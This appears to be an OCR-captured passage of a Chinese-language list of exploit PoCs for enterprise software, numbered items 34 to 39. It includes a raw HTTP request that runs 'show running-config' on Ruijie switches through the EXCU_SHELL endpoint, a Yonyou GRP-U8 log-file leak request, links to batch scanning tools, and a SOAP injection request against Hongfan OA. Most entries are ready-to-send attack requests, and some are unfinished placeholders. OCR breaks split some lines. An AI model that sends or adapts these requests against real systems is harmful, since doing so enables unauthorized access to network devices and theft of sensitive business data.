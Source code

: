 漏洞描述：锐捷交换机 WEB 管理系统 EXCU_SHELL 信息泄露漏洞
批量扫描工具：https://github.com/MzzdToT/HAC_Bored_Writing/tree/main/unauthorized/%E9%94%90%E6%8D%B7%E4%BA%A4%E6%8D%A2%E6%9C%BAWEB%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9FEXCU_SHELL
GET /EXCU_SHELL HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.2852.74 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: /
Connection: close
Cmdnum: '1'
Command1: show running-config
Confirm1: n

### 35、科荣 AIO 管理系统存在文件读取漏洞

漏洞描述：
科荣AIO企业一体化管理解决方案,通过ERP（进销存财务）、OA（办公自动化）、CRM（客户关系管理）、UDP（自定义平台），集电子商务平台、支付平台、ERP平台、微信平台、移动APP等解决了众多企业客户在管理过程中跨部门、多功能、需求多变等通用及个性化的问题。科荣 AIO 管理系统存在文件读取漏洞，攻击者可以读取敏感文件。
POC待补充
### 36、飞企互联 FE 业务协作平台 magePath 参数文件读取漏洞

漏洞描述：
FE 办公协作平台是实现应用开发、运行、管理、维护的信息管理平台。飞企互联 FE 业务协作平台存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件获取大量敏感信息。
POC待补充
### 37、用友GRP-U8存在信息泄露
漏洞描述：友U8系统存可直接访问log日志，泄露敏感信息
批量扫描工具:https://github.com/MzzdToT/HAC_Bored_Writing/tree/main/unauthorized/%E7%94%A8%E5%8F%8BGRP-U8
GET /logs/info.log HTTP/1.1

### 38、nginx配置错误导致的路径穿越风险

漏洞自查PoC如下：
https://github.com/hakaioffsec/navgix
该漏洞非0day，是一个路径穿越漏洞，可以直接读取nginx后台服务器文件。
有多家重点金融企业已中招，建议尽快进行自查。

### 39、红帆 oa 注入

POC：

POST /ioffice/prg/interface/zyy_AttFile.asmx HTTP/1.1
Host: 10.250.250.5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML,
like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 383
Content-Type: text/xml; charset=utf-8
Soapaction: "http://tempuri.org/GetFileAtt"
Accept-Encoding: gzip, deflate
Connection: close
<?xml version="1.0" encoding="utf-8"?><soap:Envelope
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetFileAtt
xmlns="http://tempuri.org/"><fileName>123</fileName></GetFileAtt> </soap:Body></so
ap:Envelope>
